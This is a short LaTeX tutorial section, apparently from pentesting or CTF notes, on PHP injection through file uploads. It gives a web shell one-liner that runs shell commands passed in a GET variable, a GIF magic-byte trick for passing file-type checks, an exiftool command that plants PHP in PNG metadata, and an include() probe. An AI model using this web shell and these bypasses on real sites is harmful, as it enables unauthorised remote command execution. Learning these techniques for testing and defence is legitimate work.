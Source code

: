 \documentclass{article}[12pt]
\newcommand{\q}[1]{\texttt{#1}}
\begin{document}
\subsection{PHP script injection}
\label{subsec:phpinjection}
Some websites allows users to upload content other than text e.g photos, movies, games and many other odd file formats.
While it is not properly controlles what type is being saved user is able to embeed PHP code which will be executed every time while trying to "see" uploaded content.
The vulnerability here is the remote shell execution.
PHP code which executes shell is simple : \texttt{echo shell\_exec(<shell script>);}, where shell script is the one executed by shell on local server.
In order to run the script you should find possibility to embeed the following script on the html page: \texttt{<?php echo shell\_exec(\$\_GET['variable']); ?>}.
In this scenario every time you open the page you added  the code to
you will be able to send shell commands remotely by passing them as GET variable via URI.

\paragraph{Hint} Check your PHP file type by \texttt{file filename.php} (see \ref{subsubsec:file}).
Add \texttt{GIF8;} or \q{GIF87a} or \q{GIF89a} line as first line in your PHP file.
Check again.
\q{7a} as well as \q{9a} describes version.

\paragraph{Hint} In you would like to check if some point is vulnerable to php injection you can submit the following line \q{include("<?php echo "ohdear" ?>")}
The \q{include()} method literally includes a PHP script to your code so it is executes as it was part of php code.

Another point of injecting PHP code might be via PNG file injection.
In that case you might try set up \q{-DocumentName} parameter by using \q{exiftool} (see \ref{subsubsec:exiftool}).
In that scenario you would inject a PHP code into the parameter like follows:  \newline
\q{exiftool  -DocumentName="<?php phpinfo() \_\_halt\_compiler(); ?>" ../../../blablaimage.png} \newline
Where \q{\_\_halt\_compiler()} halts the execution of the compiler.
This can be useful to embed data in PHP scripts, like the installation files.
\end{document}
